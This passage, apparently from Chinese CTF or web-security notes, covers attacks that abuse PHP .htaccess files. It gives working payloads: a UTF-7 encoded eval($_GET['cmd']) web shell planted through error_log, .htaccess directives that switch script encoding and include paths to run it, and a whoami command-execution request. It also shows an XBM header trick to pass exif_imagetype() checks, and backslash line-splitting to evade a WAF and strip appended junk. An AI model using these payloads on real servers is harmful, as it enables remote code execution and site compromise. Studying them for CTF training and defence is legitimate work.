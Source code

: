 或者

```php
mb_convert_encoding('<?php eval($_GET[\'cmd\']); ?>',"utf-7");
```

Step2 访问index.php留下error_log
Step3 写入.htaccess新的配置

```php
php_value zend.multibyte 1
php_value zend.script_encoding "UTF-7"
php_value include_path "/tmp"
```

Step4 再访问一次index.php?1=whoami

## 绕过exif_imagetype()上传.htaccess

采用xbm格式X Bit Map，绕过exif_imagetype()方法的检测，上传文件来解析。在计算机图形学中，X Window系统使用X BitMap，一种纯文本二进制图像格式，用于存储X GUI中使用的光标和图标位图。XBM数据由一系列包含单色像素数据的静态无符号字符数组组成，当格式被普遍使用时，XBM通常出现在标题.h文件中，每个图像在标题中存储一个数组。也就是用c代码来标识一个xbm文件，前两个#defines指定位图的高度和宽度，以像素为单位

```php
#define width 20
#define height 10
xxxxxx
```

## \号绕过waf

比如过滤了file，我们可以使用

```php
php_value auto_prepend_fi\
le .htaccess
#<?php phpinfo();
```

## \号绕过脏字符

假设在写入文件同时后面默认加上file_put_contents($filename, $content . "\nhappy")，我们payload最后可以加上#\，#负责注释，

```php
php_value include_path "/tmp"
php_value zend.multibyte 1
php_value zend.script_encoding "UTF-7"
#\
happy
```

\号将注释符和脏字符连成一行，注释掉脏字符

# 相关例题
